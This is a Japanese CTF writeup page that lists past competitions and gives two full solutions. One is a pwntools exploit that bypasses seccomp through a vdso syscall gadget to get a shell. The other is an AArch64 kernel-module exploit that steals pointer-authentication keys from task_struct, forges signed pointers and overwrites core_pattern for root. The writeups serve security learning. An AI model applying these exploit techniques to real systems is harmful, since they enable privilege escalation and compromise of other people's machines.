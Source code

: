 ```yaml
---
layout: page
title: CTF Writeups
nav_order: 3
description: "Collection of CTF competition writeups"
permalink: /writeups/
has_children: true
---
```


# CTF Writeups

This section contains writeups for various Capture The Flag (CTF) competitions I've participated in. These documents explain my approach, techniques used, and solutions for various security challenges.

## Available Writeups

- [SECCON 2022](/writeups/SECCON)
- [TSG LIVE 9 CTF](/writeups/TSG_LIVE_9)
- [ASIS CTF 2023](/writeups/ASIS_CTF_2023)
- [vsCTF 2023](/writeups/vsCTF2023)
- [DEFCON Quals 2024](/writeups/DEFCON-quals-2024)
- [SECCON 2024 Quals](/writeups/SECCON-quals-2024)
- [SECCON 2024 Final](/writeups/SECCON-final-2024)
- [AlpacaHack Round 10](/writeups/AlpacaHack-Round-10)
- [TsukuCTF 2025](/writeups/TsukuCTF2025)
- [IERAE CTF 2025](/writeups/IERAE_CTF_2025)

## Misc Writeups

### cornCTF 2025 -- he protecc

バイナリが渡される。
`READ | WRITE| EXEC` な領域が、固定アドレス`0x500000`に取られ、任意のコードを書き込み実行できる。

```plaintext
      0x400000           0x401000 r--p     1000      0 protected
      0x401000           0x4a2000 r-xp    a1000   1000 protected
      0x4a2000           0x4ca000 r--p    28000  a2000 protected
      0x4ca000           0x4cf000 r--p     5000  ca000 protected
      0x4cf000           0x4d1000 rw-p     2000  cf000 protected
      0x4d1000           0x4d7000 rw-p     6000      0 [anon_004d1]
      0x4d7000           0x4f9000 rw-p    22000      0 [heap]
      0x500000           0x501000 rwxp     1000      0 [anon_00500]
0x7ffff7ff7000     0x7ffff7ffb000 r--p     4000      0 [vvar]
0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000      0 [vvar_vclock]
0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
0x7ffffffdd000     0x7ffffffff000 rw-p    22000      0 [stack]
```

しかし、SECCOMPによってあらゆるシステムコールが禁止されている。

```plaintext
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 # 0x3fffff
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 # 0x4b7fff
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 # 0x4fffff
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 # 0x500fff
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767   # 0x7fff
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

システムコールが実行可能なのは`vdso`領域ぐらいだが、ここには

```
0x0000000000000fad: syscall; ret;
```

こんなガジェットがある。また、`vdso`のベースアドレスは`_dl_sysinfo_dso`からリークできる。

ただ、`vdso`はカーネルによって異なるので、シェルコード内で該当の命令を探し、それをガジェットとして使う。

```bash
$ asm -c amd64 'syscall; ret'
0f05c3
```

あとはいい感じに飛べば良い。

<details>
<summary>
exploit.py
</summary>

```py
from typing import List, Any, Dict
import time
from pwn import context, gdb, ELF, shellcraft, tube, pack, unpack, log, process, p64, p32, SigreturnFrame, ROP, asm, disasm, remote
from libpwncof import PayloadBuffer, LabelRef, create_ucontext

context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "debug"
# context.log_level = "info"

path = "./protected"
elf = ELF(path)
context.binary = elf

# io: tube = gdb.debug(path)
# io: tube = remote('he-protecc.challs.cornc.tf', 1337, ssl=True)
io: tube = process(path)
# io: tube = remote("127.0.0.1", 10000)

# -1f05c3: syscall; ret

code = f"""
    mov r15, [{elf.symbols['_dl_sysinfo_dso']}]

check:
    cmp byte ptr [r15 + 0], 0x0f
    jne fail
    cmp byte ptr [r15 + 1], 0x05
    jne fail
    cmp byte ptr [r15 + 2], 0xc3
    jne fail

    jmp found

fail:
    inc r15
    jmp check

found:
    mov rdi, 0x501000
    mov rsi, 0x1000
    mov rdx, 0x7
    mov r10, 0x22
    mov r8, 0xffffffff
    mov r9, 0
    mov rax, 9
    call r15

    mov rdi, 0
    mov rsi, 0x501000
    mov rdx, 0x1000
    mov rax, 0
    call r15

    mov r15, 0x501000
    jmp r15
"""

a = asm(code)

io.recvuntil("How")
io.sendline(str(len(a)).encode())

io.send(a)

time.sleep(1)
code2 = shellcraft.sh()
a = asm(code2)

io.send(a)
time.sleep(1)

io.interactive()
```

</details>


# Midnight Flag 2025 -- SecMem

AArch64のLinux上に次のようなカーネルモジュールが差し込まれる。

<details>
<summary>sec_mem.c</summary>


```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/fs.h>
#include <linux/uaccess.h>
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/mutex.h>

#define DEVICE_NAME "sec_mem"
#define BUFFER_SIZE 1024
#define MAX_FUNC_NAME 64

typedef ssize_t (*buffer_op_fn)(void *buffer, const void *data, size_t len, int64_t offset);

struct sec_mem_buffer {
    char buffer[BUFFER_SIZE];
    buffer_op_fn ops[3]; 
};

static struct sec_mem_buffer device_global_struct;

struct sec_mem_ioctl_data {
    size_t length;
    uint64_t op_index; 
    char buffer[BUFFER_SIZE];
    int64_t offset;
};

static int major_number;
static struct class *sec_mem_class = NULL;
static struct cdev sec_mem_cdev;

static struct mutex mutex;


struct sec_mem_ioctl_data data;

static int sec_mem_release(struct inode *inode, struct file *file) {
    mutex_unlock(&mutex);
    pr_info("sec_mem_dev: Device closed\n");
    return 0;
}

ssize_t buffer_copy_from_user(void *buffer, const void *data, size_t len, int64_t offset) {
    if (len > sizeof(struct sec_mem_buffer)) {
        return -EINVAL;
    }
    memcpy(buffer, data, len);
    return len;
}

ssize_t buffer_copy_to_user(void *buffer, const void *data, size_t len, int64_t offset) {
    if (len > sizeof(struct sec_mem_buffer)) {
        return -EINVAL;
    }
    memcpy(data, buffer + offset, len);
    return len;
}

ssize_t buffer_clear(void *buffer, const void *data, size_t len, int64_t offset) {
    memset(buffer, 0, BUFFER_SIZE);  
    return BUFFER_SIZE;  
}

#define sec_mem_IOC_MAGIC 'k'
#define sec_mem_IOC_SET_OPERATION _IOW(sec_mem_IOC_MAGIC, 3, unsigned int)

static void *paciza(void *ptr) {
    __asm__ volatile (
        "paciza %0" 
	: "+r" (ptr)    
    );
    return ptr;
}


static void *autiza(void *ptr) {
    __asm__ volatile (
        "autiza %0"  
	: "+r" (ptr)    
    );
    return ptr;  
}

static void sec_mem_init_ops(void) {
    device_global_struct.ops[0] = buffer_copy_from_user;
    device_global_struct.ops[1] = buffer_copy_to_user; 
    device_global_struct.ops[2] = buffer_clear;

    for (int i = 0; i < 3; i++) {
        device_global_struct.ops[i] = paciza(device_global_struct.ops[i]);
    }
}

static int sec_mem_open(struct inode *inode, struct file *file) {
    if (!mutex_trylock(&mutex)) {
        pr_err("Device is already open!\n");
        return -EBUSY;
    }

    sec_mem_init_ops();
    return 0;
}

static long sec_mem_ioctl(struct file *file, unsigned int cmd, unsigned long arg) {

    if (cmd == sec_mem_IOC_SET_OPERATION) {
        if (copy_from_user(&data, (struct sec_mem_ioctl_data *)arg, sizeof(data))) {
            return -EFAULT;
        }

        if (data.op_index >= 3) { 
            return -EINVAL;
        }

	void *auth_ptr = autiza(device_global_struct.ops[data.op_index]);

        if (!auth_ptr) {
            return -EACCES; 
        }

        buffer_op_fn op = (buffer_op_fn)auth_ptr;
        ssize_t result = op(device_global_struct.buffer, &data.buffer, data.length, data.offset);
        if (result < 0) {
            return result;
        }

        if (copy_to_user(arg, &data, sizeof(data))){
            return -EFAULT;
        }

        return 0;
    }

    return -EINVAL;
}

static char *sec_mem_devnode(const struct device *dev, umode_t *mode) {
    if (mode)
        *mode = 0666;
    return NULL;
}

static struct file_operations fops = {
    .owner = THIS_MODULE,
    .open = sec_mem_open,
    .release = sec_mem_release,
    .unlocked_ioctl = sec_mem_ioctl,  
};


static int __init sec_mem_init(void) {
    mutex_init(&mutex);
    
    major_number = register_chrdev(0, DEVICE_NAME, &fops);
    if (major_number < 0) {
        pr_err("sec_mem_dev: Failed to register a major number\n");
        return major_number;
    }

    sec_mem_class = class_create("sec_mem_class");
    if (IS_ERR(sec_mem_class)) {
        unregister_chrdev(major_number, DEVICE_NAME);
        pr_err("sec_mem_dev: Failed to register device class\n");
        return PTR_ERR(sec_mem_class);
    }
    sec_mem_class->devnode = sec_mem_devnode;

    device_create(sec_mem_class, NULL, MKDEV(major_number, 0), NULL, DEVICE_NAME);
    cdev_init(&sec_mem_cdev, &fops);
    cdev_add(&sec_mem_cdev, MKDEV(major_number, 0), 1);
    
    return 0;
}

static void sec_mem_exit(void) {
    device_destroy(sec_mem_class, MKDEV(major_number, 0));  
    cdev_del(&sec_mem_cdev);  
    class_destroy(sec_mem_class);  
    unregister_chrdev(major_number, DEVICE_NAME);  
}


module_init(sec_mem_init);


MODULE_LICENSE("GPL");
MODULE_AUTHOR("Itarow");
MODULE_DESCRIPTION("secure memory driver");
```

</details>

脆弱性は3つ。

- `buffer_copy_*`が、ユーザからのコピー関数ではなく`memcpy`を使っている。
- `buffer_copy_to_user`の`offset`のチェックがない
- `buffer_copy_*`の境界チェックが、本来バッファサイズと比較するべきところ、`ops`の分も入れてしまっている。

さて、１つ目の２つ目の脆弱性を使うことで、バッファの外の値を読み出すことができる。例えば、`offset=1024`とすればバッファの外の、`ops`からリードができる。そこら辺の適当なポインタがカーネルを指しているので、モジュールのロードアドレスとカーネルのベースアドレスをリークできる。

２つがリークできたら、適当な計算によってカーネルに対するAARが手に入る。`ops`を置き換えて`rip`を取りたいが、armのポインタ認証によって暗号化されているため、単純な関数ポインタの書き換えはできない。
ところで、ポインタ認証のための鍵は、`task_struct`に保存されている。`init`からプロセスを手繰っていき、自身の構造体の鍵をリークすることができる。
ただ、ポインタと鍵から認証済みポインタを作るのは少し面倒だったので、私が開発している[libkpwn](https://github.com/Iwancof/libkpwn/blob/master/src/aarch64/pauth.c)というライブラリに、認証用のコードを書いた。

これで好きな関数を呼び出すことができる。armなのでROPは難しく、良さそうなガジェットを探していたところ、次のようなガジェットを発見した。

```
0x000000000006ee34: str x2, [x3]; ret;
```

第二引数、第三引数はユーザが自由に渡すことができるため、これによってAAWも実現した。
最後に`core_pattern`を書き換え、root権限を取る。

最終的なexploitを以下に示す。


<details>
<summary>
exploit.c
</summary>

```c
#define _GNU_SOURCE

#include <kpwn/prelude.h>

#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/uio.h>
#include <unistd.h>

#define BUFFER_SIZE 1024

struct sec_mem_ioctl_data {
  size_t length;
  uint64_t op_index;
  char buffer[BUFFER_SIZE];
  int64_t offset;
};

void *buf_base = NULL;
int fd;

void *aar(void *kptr) {
  struct sec_mem_ioctl_data data;
  data.op_index = 1;
  data.length = 1024;
  memset(data.buffer, 0, 1024);
  data.offset = -(int64_t)buf_base + (int64_t)kptr;

  SYSCHK(ioctl(fd, 0x40046b03, &data));

  void *content = calloc(1, 1024);
  memcpy(content, data.buffer, 1024);

  return content;
}

int main(int argc, char **argv) {
  noaslr(argc, argv);

  set_process_name("exploit");

  init_billy(argv);

  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  setbuf(stdin, NULL);

  log_level = LOG_INFO;

  log_info("start pwning");

  fd = SYSCHK(open("/dev/sec_mem", O_RDWR));

  struct sec_mem_ioctl_data data;
  data.op_index = 1;
  data.length = 1024;
  memset(data.buffer, 0, 1024);
  data.offset = 1024;

  SYSCHK(ioctl(fd, 0x40046b03, &data));

  hexdump(log_info, data.buffer, 0x30);
  void **leaks = (void **)data.buffer;
  log_info("copy_from_user: %p", leaks[0]);
  log_info("copy_to_user: %p", leaks[1]);
  log_info("clear: %p", leaks[2]);

  void *kbase = leaks[10] - 0xb894e8;
  buf_base = leaks[6] - 0x430;

  set_kbase(kbase);
  log_success("buf_base = %p", buf_base);

  // init_task: 0xb019c0
  // list: 0x338
  // name: 0x5e8
  // key: 0xf28

  void *task = kbase + 0xb019c0;
  while (1) {
    char *name = aar(task + 0x5e8);
    // log_info("checking task %p, name: %s", task, name);

    if (strcmp(name, "exploit") == 0) {
      log_success("task found at %p", task);
      free(name);
      break;
    }
    free(name);

    void **next = aar(task + 0x338);
    if (next[0] == NULL) {
      log_error("task not found");
      return -1;
    }

    task = next[0] - 0x338;
    free(next);
  }

  uint64_t *keys = aar(task + 0xf28);

  uint64_t lo = keys[0];
  uint64_t hi = keys[1];
  free(keys);

  log_success("found pac-keys! lo: 0x%lx, hi: 0x%lx", lo, hi);

  pauth_key key;
  key.lo = lo;
  key.hi = hi;

  uint64_t clear_func = (uint64_t)(buf_base - 0x2504);
  uint64_t clear_pacced = pauth_addpac(clear_func, 0, key);
  uint64_t clear_leaked = (uint64_t)leaks[2];

  log_info("checking pac keys: ours: `buffer_clear`: 0x%lx, leaked: 0x%lx",
           clear_pacced, clear_leaked);
  ASSERT_MSG(clear_pacced == clear_leaked,
             "clear_func pacced does not match leaked clear_func");

  // 0x000000000006ee34: str x2, [x3]; ret;
  uint64_t gadget = 0x000000000006ee34 + (uint64_t)kbase;

  log_info("gadget at 0x%lx", gadget);

  uint64_t pac = pauth_addpac(gadget, 0, key);
  log_info("pacced gadget: 0x%lx", pac);

  struct kbuf {
    size_t length;
    uint64_t op_index;
    char s[1024];
    union {
      void *ops[3];
      int64_t offset;
    };
  } buf;

  buf.length = 1024 + 8 * 1;
  buf.op_index = 0;
  memset(buf.s, 0, sizeof(buf.s));
  buf.ops[0] = (void *)pac;

  SYSCHK(ioctl(fd, 0x40046b03, &buf));

  uint64_t write_data = pc64("|/tmp/x");
  uint64_t dest = 0xb8a560 + (uint64_t)kbase; // core pattern

  buf.op_index = 0;

  buf.length = write_data; // x2
  buf.offset = dest;       // x3

  ioctl(fd, 0x40046b03, &buf); // ignore error

  trigger_corewin("/tmp/x", LPE_BILLY);
}
```

</details>

![sec_mem_solved](https://raw.githubusercontent.com/Iwancof/about-me/main/writeups/sec_mem_solved.png)
